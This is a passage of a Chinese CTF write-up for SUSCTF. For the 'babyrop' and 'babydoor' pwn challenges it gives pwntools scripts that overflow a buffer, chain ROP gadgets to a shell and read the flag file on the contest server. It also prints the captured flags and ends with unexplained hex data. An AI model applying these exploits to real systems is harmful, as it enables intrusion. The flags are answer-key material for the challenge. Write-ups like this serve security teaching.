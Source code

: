 ```
SUSCTF{803f7b0ed73d0233f1daefdf4385f700}
```

## [pwn]babyrop

![image-20201020160040996](https://timg.reito.fun/archive/typora-schwarzer/image-20201020160040996.png)

签到题，导入了`system`

![image-20201020160149464](https://timg.reito.fun/archive/typora-schwarzer/image-20201020160149464.png)

因此构造一个payload，首先压入`pop rdi; ret;`的地址，然后`/bin/sh`的地址，再返回到`0x601028`即可

```
0x0000000000400763 : pop rdi ; ret
```

```python
from pwn import *

conn = remote('146.56.223.95', 20007)
conn.recv(10000, 1)
payload = ('A'*104).encode()
payload += p64(0x400763)
payload += p64(0x601050)
payload += p64(0x400540)
conn.sendline(payload);

conn.sendline('cat /flag/flag.txt')
print(conn.recvall(1))
```

写入，拿到flag。

![image-20201020160612764](https://timg.reito.fun/archive/typora-schwarzer/image-20201020160612764.png)

```
SUSCTF{cc3acff78a7bd187ef81be94a79b660f}
```

## [pwn]babydoor

比上一题还简单

![image-20201020160759589](https://timg.reito.fun/archive/typora-schwarzer/image-20201020160759589.png)

直接返回到该函数地址即可。

```python
from pwn import *

conn = remote('146.56.223.95', 20008)
conn.recv(10000, 1)
payload = ('A'*104).encode()
payload += p64(0x400676)
conn.sendline(payload);

conn.sendline('cat /flag/flag.txt')
print(conn.recvall(1))
```


[0]:  000000000000000000000000aba596caeac381cd80d5cdaa098a82b999ead1d9
[1]:  000000000000000000000000c9219dd84a3210920addbead9d0099f4a8b27229
[2]:  00000000000000000000000000000000000000000000000000000000000f32a7
[0]:  0000000000000000000000000000000000000000000000000000000000000020
[1]:  0000000000000000000000000000000000000000000000000000000000000030
[2]:  6333567a5933526d4d6a41794d45426a65574a6c636e4e7759574e6c6332566a
[3]:  64584a7064486b75623235736157356c00000000000000000000000000000000